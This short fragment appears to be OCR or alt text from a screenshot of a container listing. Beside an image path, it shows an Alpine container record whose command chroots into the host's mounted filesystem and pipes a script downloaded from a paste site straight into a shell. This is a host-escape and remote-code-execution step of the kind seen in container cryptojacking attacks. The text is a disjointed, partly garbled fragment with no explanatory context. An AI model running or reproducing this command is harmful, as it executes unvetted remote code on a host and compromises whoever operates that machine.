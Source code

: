 Image: alpine
        Command: chroot /mnt /bin/sh -c 'curl -sL4 http://ix.io/1XQa | bash;'   Created:1574361349
